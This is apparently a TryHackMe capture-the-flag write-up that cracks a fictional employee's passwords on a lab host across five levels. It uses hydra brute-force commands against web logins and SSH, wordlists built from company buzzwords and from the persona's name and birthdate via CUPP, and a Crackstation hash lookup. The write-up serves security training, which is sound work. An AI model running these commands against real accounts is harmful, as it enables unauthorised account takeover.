Exploit weak password practices across Marco’s internal systems to achieve full compromise.


> **Challenge Info**
> 
> Platform: TryHackMe
> 
> Category: Web
> 
> CTF Link: https://tryhackme.com/room/checkmate
# Level 1
I enter the site on `http://10.114.141.116:5000` and see the first level.



I go to `http://10.114.141.116:5001` and see the firewall login page:



The site said the main app on port 5000 was off limits to brute-forcing, but this isn't port 5000. I make a login attempt and inspect the HTTP request:



I assume the username is the default `admin` and I run hydra:
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.114.141.116 -s 5001 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials."`

And the password it discovers is:
`[5001][http-post-form] host: 10.114.141.116   login: admin   password: 12345`
# Level 2


I go to the site on port 5002:



I find a identical login page as level 1:



I scoop up some buzzwords from the sub title of the main page and make them into a wordlist:
```
innovation
excellence
security
digital
cloud
future
talent
```

And run a nearly identical attack on the login page:
` hydra -l marco -P ~/marco.txt 10.114.141.116 -s 5002 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials."`

And we find our password:
`[5002][http-post-form] host: 10.114.141.116   login: marco   password: excellence`
# Level 3


The site on port 5003:



To get Marco's personal info, I'll go back to the jobs page, and login with the level 2 credentials:



I will load this info into CUPP to generate a wordlist:
```
┌──(kali㉿kali)-[~/cupp]
└─$ python cupp.py -i
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Marco
> Surname: Bianchi
> Nickname: marky
> Birthdate (DDMMYYYY): 14021995
---
```

And after running yet another password attack:
`hydra -l marco -P ~/cupp/marco.txt 10.114.141.116 -s 5003 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials."`

We get:
`[5003][http-post-form] host: 10.114.141.116   login: marco   password: Bianchi2495`
# Level 4


I go back to the social site and login with level 3 credentials:



I inspect Marco's profile picture with my browser tools and find this HTML snippet:
``

I take the file name and put it into Crackstation to find the level 4 password:


# Level 5


The level description is referring to this banger of a post:



I go back to my wordlist from level 2 and update it with Marco's tip:
```
Innovation2024!
Excellence2024!
Security2024!
Digital2024!
Cloud2024!
Future2024!
Talent2024!
```

I prepare another password attack:
`hydra -l marco -P ~/marco.txt 10.114.141.116 ssh`

And we find the credentials:
`[22][ssh] host: 10.114.141.116   login: marco   password: Security2024!`

All the passwords we found were:

| Level | Password        |
| ----- | --------------- |
| 1     | `12345`         |
| 2     | `Excellence`    |
| 3     | `Bianchi2495`   |
| 4     | `family`        |
| 5     | `Security2024!` |
